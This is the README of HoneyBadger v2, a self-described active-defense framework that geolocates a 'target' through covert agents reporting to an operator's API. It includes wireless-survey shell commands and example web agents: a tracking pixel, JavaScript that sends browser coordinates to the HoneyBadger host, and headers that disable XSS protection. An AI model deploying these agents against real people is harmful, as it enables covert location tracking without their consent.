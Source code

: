 # HoneyBadger v2

HoneyBadger is a framework for targeted geolocation. While honeypots are traditionally used to passively detect malicious actors, HoneyBadger is an Active Defense tool to determine who the malicious actor is and where they are located. HoneyBadger leverages "agents" built in various technologies that harvest the requisite information from the target host in order to geolocate them. These agents report back to the HoneyBadger API, where the data is stored and made available in the HoneyBadger user interface.

An early prototype of HoneyBadger (v1) can be seen in the presentation "[Hide and Seek: Post-Exploitation Style](http://youtu.be/VJTrRMqHU5U)" from ShmooCon 2013. The associated Metasploit Framework modules mentioned in the above presentation can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger). Note: These modules have not been updated to work with v2 of the API.

## Getting Started

### Pre-requisites

* Python 3.x

### Installation (Ubuntu and OS X)

1. Install [pip](https://pip.pypa.io/en/stable/installing/).
2. Clone the HoneyBadger repository.

    ```
    $ git clone https://github.com/lanmaster53/honeybadger.git
    ```

3. Install the dependencies.

    ```
    $ cd honeybadger/server
    $ pip install -r requirements.txt
    ```

4. Initialize the database. The provided username and password will become the administrator account.

    ```
    $ python3
    >>> import honeybadger
    >>> honeybadger.initdb(<username>, <password>)
    ```

5. Start the HoneyBadger server.

    ```
    $ python3 ./honeybadger.py
    ```

6. Visit the application and authenticate.
7. Add users and targets as needed using their respective pages.
8. Deploy agents for the desired target.

Clicking the "demo" button next to any of the targets will launch a demo web page containing an `HTML`, `JavaScript`, and `Applet` agent for that target.

### Fresh Start

Make a mess and want to start over fresh? Do this.

```
$ python3
>>> import honeybadger
>>> honeybadger.dropdb()
>>> honeybadger.initdb(<username>, <password>)
```

## API Usage

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>?lat=<float:latitude>&lng=<float:longitude>&acc=<integer:accuracy>
```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```
cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal Channel"
```

Linux:

```
/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'
```

OS X:

```
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

Example: (Method: `POST`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

POST Payload:

```
os=<string:operating-system>&data=<base64:data>
```

The `os` parameter must match one of the following regular expressions:

* `re.search('^mac os x', os.lower())`
* `re.search('^windows', os.lower())`
* `re.search('^linux', os.lower())`

### Universal Parameters

All requests can include an optional `comment` parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.

## Example Web Agents

### HTML

```
img = new Image();
img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/HTML";
```

or

```
<img src="http://<path:honeybadger>/api/beacon/<guid:target>/HTML" width=1 height=1 />
```

### JavaScript

Note: JavaScript (HTML5) geolocation agents will not work unless deployed in a secure context (HTTPS), or local host.

```
function showPosition(position) {
    img = new Image();
    img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/JavaScript?lat=" + position.coords.latitude + "&lng=" + position.coords.longitude + "&acc=" + position.coords.accuracy;
}

if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
}
```

### Content Security Policy

```
response.headers['X-XSS-Protection'] = '0'
response.headers['Content-Security-Policy-Report-Only'] = '<string:policy>; report-uri http://<path:honeybadger>/api/beacon/<guid:target>/Content-Security-Policy'
```

### XSS Auditor

```
response.headers['X-XSS-Protection'] = '1; report=http://<path:honeybadger>/api/beacon/<guid:target>/XSS-Protection'
```
